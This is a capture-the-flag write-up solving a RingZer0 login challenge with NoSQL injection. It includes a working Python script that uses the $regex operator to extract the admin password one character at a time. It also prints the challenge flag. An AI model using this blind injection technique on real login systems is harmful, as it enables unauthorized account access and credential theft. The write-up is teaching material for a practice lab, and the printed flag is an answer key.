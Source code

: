 # I forgot my password

## Challenge Details 

- **CTF:** RingZer0
- **Category:** Exotic Data Storage
- **Points:** 3

## Provided Materials

- Login Form

## Solution

The solution will be based on [DON'T login as admin](https://github.com/bu19akov/CTF-Challenge-Solutions/blob/main/RingZer0_CTF/exotic_data_storage/DON'T%20login%20as%20admin%20(2p)/solution.md) challenge, so I recommend to read it first.

Now back to our current challenge, the web page looks exactly the same as in `DON'T login as admin`, so we can try the `$ne` operator again:

![ne](./ne.jpg)

Hm, [NoSQL Injection](https://book.hacktricks.xyz/pentesting-web/nosql-injection) again, but the `$ne` operator don't work. Let's see, what else we can do:

![nosql](./nosql.jpg)

`$regex` looks promising, let's try it *(We will try to use admin as username as the challenge name is `I forgot my password` and probably it is based on `DON'T login as admin` chalenge)* :

 ![regex_is](./regex_is.jpg)
 
 ![regex_no](./regex_no.jpg)
 
 As we can see, there are two types of responses: `Welcome. Keep looking, the flag is not here.` message or nothing. That means, that if the character is presented in password, we will get the messsage as response, so let's automate our job with python to find the password *(`regex` tutorial [here](https://medium.com/factory-mind/regex-tutorial-a-simple-cheatsheet-by-examples-649dc1c3f285))*:
 
```python
import requests
import string

# Base URL and endpoint
url = 'http://challenges.ringzer0ctf.com:10309'

# Initialize possible characters
chars = string.ascii_lowercase + string.ascii_uppercase + string.digits + '-'
found = ''  # Keep track of found characters

while True:
    for char in chars:

        # Formulate regex
        regex = f'^{found}{char}' # ^ character is used to mark start of the string
        payload = {
            'username': 'admin',
            'password[$regex]': regex
        }

        # Send POST request
        response = requests.post(url, data=payload)

        # Check if the response contains the success message
        if "<h1>Welcome. Keep looking, the flag is not here.</h1>" in response.text:
            found += char
            print(f"Current match: {found}")
            break
    else:
        # Exit loop if no character matches
        print(f"Final password: {found}")
        break
```


## Final Flag

`FLAG-fa37ff8c565fb91f056d29eebf40e137`

*Created by [bu19akov](https://github.com/bu19akov)*